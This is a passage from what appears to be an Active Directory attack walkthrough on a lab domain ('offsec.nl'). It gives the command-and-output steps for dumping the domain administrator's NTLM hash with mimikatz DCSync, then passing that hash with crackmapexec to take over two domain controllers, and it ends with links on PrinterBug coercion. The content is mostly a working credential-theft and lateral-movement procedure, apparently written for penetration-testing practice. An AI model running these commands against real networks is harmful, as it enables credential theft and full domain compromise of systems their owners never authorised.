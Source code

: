 
To validate if the CIFS is working with elevated (remote Administrator privileges) on the target machine, for example use the following `dir \\WIN10-TARGET.offsec.nl\c$`.

### Step 7 - Dump NTLM hash

```plain
PS Z:\> .\mimikatz.exe

mimikatz # lsadump::dcsync /domain:offsec.nl /user:administrator@offsec.nl /dc:dc03.offsec.nl
[DC] 'offsec.nl' will be the domain
[DC] 'dc03.offsec.nl' will be the DC server
[DC] 'administrator@offsec.nl' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : administrator (SVC)

** SAM ACCOUNT **

SAM Username         : administrator
User Principal Name  : administrator@offsec.nl
[...]
Credentials:
  Hash NTLM: 97f2592347d8fbe42be381726ff9ea83
[...]
```

### Step 8 - Pass the Hash

```plain
$ cme smb 10.10.20.52-53 -u administrator -H 97f2592347d8fbe42be381726ff9ea83
SMB         10.10.20.52     445    DC02             [*] Windows 10.0 Build 17763 x64 (name:DC02) (domain:offsec.nl) (signing:True) (SMBv1:False)
SMB         10.10.20.53     445    DC03             [*] Windows 10.0 Build 20348 x64 (name:DC03) (domain:offsec.nl) (signing:True) (SMBv1:False)
SMB         10.10.20.52     445    DC02             [+] offsec.nl\administrator:97f2592347d8fbe42be381726ff9ea83 (Pwn3d!)
SMB         10.10.20.53     445    DC03             [+] offsec.nl\administrator:97f2592347d8fbe42be381726ff9ea83 (Pwn3d!)
```

## URL list

- [Github.com - printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
- [Thehacker.recipes - MS-RPRN abuse (PrinterBug)](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-rprn)
